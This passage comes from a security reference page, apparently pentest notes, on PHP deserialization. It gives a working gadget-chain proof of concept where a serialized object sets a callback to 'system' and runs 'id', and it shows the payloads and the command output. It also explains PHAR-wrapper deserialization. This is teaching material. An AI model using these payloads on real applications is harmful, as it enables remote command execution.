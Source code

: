 ```php
    public function __get($name) { 
        return call_user_func($this->callback, $name); // call_user_func allows to execute arbitrary commands
    }
}
```

PoC:
```php
<?php

include('poc.php');


$obj = new CustomTemplate();
$obj->desc = new DefaultMap("system"); // set the variable "public" in the reference class
$obj->default_desc_type = "id"; // set the variable "public" in the reference class

$c = serialize($obj);
echo $c;
echo "\n\n";
$c_e = base64_encode(serialize($obj));
echo $c_e;
echo "\n\n";
unserialize($c);

?>

$ php asd.php
O:14:"CustomTemplate":2:{s:17:"default_desc_type";s:2:"id";s:4:"desc";O:10:"DefaultMap":1:{s:20:"DefaultMapcallback";s:6:"system";}}

TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjI6e3M6MTc6ImRlZmF1bHRfZGVzY190eXBlIjtzOjI6ImlkIjtzOjQ6ImRlc2MiO086MTA6IkRlZmF1bHRNYXAiOjE6e3M6MjA6IgBEZWZhdWx0TWFwAGNhbGxiYWNrIjtzOjY6InN5c3RlbSI7fX0=

uid=1000(kali) gid=1000(kali) groups=1000(kali),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),115(bluetooth),125(scanner),141(wireshark),143(kaboxer)

```

### Bypass checks on serialized object exploiting parser differentials

- [WAFfle-y Order](../../Play%20ground/CTFs/WAFfle-y%20Order.md)

### PHAR deserialization

In PHP it is sometimes possible to exploit deserialization even if there is no obvious use of the `unserialize()` method. This can be achieved though the `phar://` wrapper, which provides a stream interface for accessing PHP Archive (`.phar`) files. Those files contain **serialized metadata** that are implicitly deserialized when filesystem operations are performed on the `phar://` stream.
